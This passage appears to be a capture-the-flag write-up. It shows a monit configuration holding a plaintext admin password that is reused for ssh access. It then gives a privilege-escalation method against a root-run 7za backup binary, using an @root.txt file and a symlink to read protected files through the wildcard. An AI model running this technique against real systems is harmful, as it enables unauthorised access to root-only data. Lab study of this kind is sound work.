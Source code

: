 ```

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```
		- username : admin
		- password : `3nc0d3d_pa$$w0rd`
		- xander access granted. can now ssh for better shell.
## Privilege escalation
- sudo -l reveals we can pass /usr/bin/usage_management
	- executable
- strings /usr/bin/usage_management
	```bash
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *  # what is 7za
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql # normal behoviour
```
	- 7za is 7zip
	- does a zip and creates a symlink (-snl) which is interesting for exploits
	- working directory has to be /var/www/html
	- (instead of hacktricks), google 7za snl vulnerability and found this which said the same :
		- https://chinnidiwakar.gitbook.io/githubimport/linux-unix/privilege-escalation/wildcards-spare-tricks
	- on checking hacktricks we see it can be vulnerable. 
		- we see a privilege escalation
			```bash
In 7z even using -- before * (note that -- means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
And you can create files in the folder were this is being executed, you could create the file @root.txt and the file root.txt being a symlink to the file you want to read:

bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```